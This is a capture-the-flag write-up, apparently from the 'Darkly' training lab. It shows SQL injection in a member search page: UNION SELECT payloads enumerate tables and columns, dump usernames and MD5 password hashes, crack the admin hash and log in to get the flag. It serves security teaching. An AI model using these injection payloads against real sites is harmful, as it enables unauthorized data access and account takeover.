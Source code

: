 # SQL Injection - Login

## Exploit

Go to page:

{VM_IP}/index.php?page=member

When we were doing [SQL injection into the image search](https://github.com/anyashuka/Darkly/tree/master/SQL_Injection_Images), we noticed something after inputting the following command:


### Get the table names in the database

```1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.TABLES```

* First name: Member_Brute_Force,
Surname : db_default

... Maybe this means we can exploit a member's login details (name, password).

We're going to be doing the same thing here as we did in the SQL image search injection. 
Insert the following commands into the member search bar:


### Find table columns in the database for each table

```1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS```

Here we find:

* First name: db_default,
Surname : id
* First name: db_default,
Surname : username
* First name: db_default,
Surname : password


### Search for the username and password of Member_Brute_Force

```1 OR 1=1 UNION SELECT username, password FROM Member_Brute_Force.db_default```

* First name: Flag,
Surname : GetThe
* First name: root,
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
* First name: admin,
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

... Aha! Let's try decrypting those with md5.

[md5_decrypt](https://md5decrypt.net)(3bf1114a986ba87ed28fc1b5884fc2f8) = shadow


### Use our newly aquired admin + password details

Let's try plugging that in on the login page:

{VM_IP}/index.php?page=signin

Username: admin, Password: shadow

The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
